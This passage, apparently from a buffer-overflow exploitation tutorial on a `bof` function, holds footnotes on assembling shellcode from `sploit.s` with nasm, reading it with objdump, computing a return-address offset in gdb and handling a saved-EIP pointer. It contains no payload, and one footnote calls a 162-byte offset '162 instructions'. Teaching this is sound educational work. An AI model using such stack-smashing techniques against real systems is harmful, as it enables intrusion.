  If you’re at all familiar with assembly code, the `bof` function is very small and simple and isn’t too hard to follow.
[^1]: You can replicate this by saving the assembly code as a file `sploit.s`, and inserting the lines:  
    `section .text`  
    `global _start`  
    `_start:`  
    at the start. Compile it with the command `nasm -f elf32 sploit.s -o sploit.o`, then issue the command `objdump -d sploit.o` to see the disassembled shellcode.
[^2]: A little math tells us that (*location_in_main* $−$ *start_of_main*) = (0*x*56556382−0*x*565562*e*0) = 162; we’re 162 instructions past the start of the `main` function. If we wanted, we could view the precise assembly language instructions being executed, by issuing the gdb command `layout asm`.
[^3]: Technically, it would be more appropriate to treat `$saved_eip` as a “pointer to `intptr_t`” or as a “pointer to a function pointer” – but “`size_t`” is much easier to read.